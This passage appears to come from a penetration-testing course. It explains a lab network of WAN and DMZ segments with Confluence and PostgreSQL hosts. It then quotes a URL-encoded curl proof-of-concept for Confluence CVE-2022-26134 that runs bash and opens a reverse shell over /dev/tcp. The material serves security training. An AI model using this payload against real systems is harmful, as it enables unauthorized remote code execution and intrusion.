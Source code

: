 A WAN is a network that is large and expansive. Some people refer to the public internet as the largest WAN in the world, and some larger organizations will refer to their large internal network as a WAN, or internal WAN. In this case, since we're simulating an attack from an external network, the WAN represents a large corporate internal network, or the internet itself.

In this module’s exercises, our Kali machine will be positioned in the WAN We can route directly from our Kali machine only to hosts also on the WAN.

A DMZ is a network containing devices that may be more exposed to a wider, less trusted network. A DMZ helps create a buffer zone between hosts on the wider, less trusted network and internal hosts. In this way, it serves a similar function to a real-world [_Demilitarized zone_](https://en.wikipedia.org/wiki/Demilitarized_zone). In this scenario, the DMZ is the buffer network segment between the WAN and whatever other internal networks we may find.

CONFLUENCE01 is straddling both the WAN and DMZ to illustrate that it can communicate on both networks. CONFLUENCE01 is also listening on TCP port 8090, illustrated by the "open socket" attached to the icon.

PGDATABASE01 is within the DMZ network boundary; it does not straddle the WAN/DMZ. Our Kali machine is not in the DMZ, so we can't directly route to PGDATABASE01. PGDATABASE01 also has an "open socket" attached to it, illustrating that there's something listening on TCP port 5432 (this is likely a PostgreSQL server, since the default port is 5432).

Since the only thing we know about PGDATABASE01 so far is that it exists, we don't yet know if it's attached to any other networks. If later we find that PGDATABASE01 is attached to other networks, we will expand our network diagram.

With the credentials we found on CONFLUENCE01, we want to try to connect to this PostgreSQL port on PGDATABASE01 from our Kali machine.

Before getting into more detail, let's set up our lab environment to recreate the scenario we've described so far.

At the end of the _Port Forwarding with Socat_ section of this Learning Unit, a group of VMs are provided that can be used to follow along with the following sections. These VMs are provided so you can gain hands-on experience with all the techniques we cover. You can start the VM group at any point and follow along at whatever pace feels comfortable.

## 19.2.2. Setting Up the Lab Environment

To gain access to CONFLUENCE01, we need to leverage the command execution vulnerability in the Confluence web application to get a reverse shell. After discovering that the Confluence web application is vulnerable to CVE-2022-26134, we'll find a blog post from [_Rapid7_](https://www.rapid7.com/blog/post/2022/06/02/active-exploitation-of-confluence-cve-2022-26134/) that includes a [_cURL_](https://curl.se/) command containing a [_proof-of-concept_](https://en.wikipedia.org/wiki/Proof_of_concept) payload that claims to exploit the vulnerability and return a reverse shell.

```
curl -v http://10.0.0.28:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27bash%20-i%20%3E%26%20/dev/tcp/10.0.0.28/1270%200%3E%261%27%29.start%28%29%22%29%7D/
```

> Listing 1 - The example payload from the Rapid7 blog post.

We don't run payloads without understanding exactly what they do, so we first need to figure out what's happening in this proof-of-concept.
